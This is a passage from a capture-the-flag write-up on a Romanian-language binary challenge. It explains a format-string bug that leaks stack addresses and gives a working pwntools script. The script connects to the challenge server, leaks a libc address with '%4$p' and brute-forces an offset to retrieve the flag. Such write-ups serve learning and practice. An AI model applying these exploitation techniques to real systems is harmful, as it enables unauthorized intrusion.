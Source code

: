 ```C
    exit(1);
  }
  v2 = getenv("FLAG2");
  if ( v2 )
    printf("[*] Felicitari! Diploma de absolvire a anului doi: %s\n", v2);
  else
    puts("[*] Felicitari! Contacteaza adminul pentru a obtine diploma de absolvire.");
  puts(&byte_55555555643A);
  return v5 - __readfsqword(0x28u);
}
```

We see we can input 4 characters, which are then fed directly into `printf` with no arguments, thus it will start leaking values from the stack. I fiddled locally with this quite some time trying to get a good libc address, but due to gdb/ida disabling aslr and messing with the stack, I couldn't get something good, so I wrote a quick script that sent payloads from `%1$p` to `%9$p` to the server to see what addresses I get:
`['0x7ffe0778e910', '(nil)', '(nil)', '0x7bd9ee16d3c0', '0x70', '0x7ffd593f1b78', '0xfffffff6a7d4dc60', '0x58abfc4e8000', '0x5a194af5f000']`

From local testing we knew that the first offset was on the stack, and the 6th offset was from the loader, so the only good candidate for the libc address was offset 4, so I wrote a quick script for bruteforcing the offset by aligning it to 4KB and then go down from there, until we get something. This approach yields the flag.

```Python
from pwn import *
def exploit(offset):
    p = remote("34.107.35.141", 31840)
    p.recvuntil(b"0-9: ")
    p.sendline(b"-10")
    p.recvuntil(b"valoare: ")
    p.sendline(b"+")
    r = p.recv().split(b"\n")[0].split(b"=")[-1].decode().strip()
    p.sendline(hex(int(r, 16) - 0x3dd0).encode())
    p.recvuntil(b"caractere: ")
    s = "%4$p"
    p.sendline(s.encode())
    leak = p.recvuntil(b"libc:").split(b"\n")[0].decode().strip()
    leak = (int(leak, 16)) & ~(0x1000 - 1) - offset
    p.sendline(hex(leak).encode())
    print("[*] trying value: ", hex(leak))
    try:
        r = p.recv()
        r += p.recv()
        print(r)
        if b"gresita" not in r:
            print("FLAGG")
            exit(0)
    except Exception:
        pass
    p.close()
    
for i in range(0, 0x400000, 0x1000):
    print("[*] at offset ", hex(i))
    exploit(i)

```
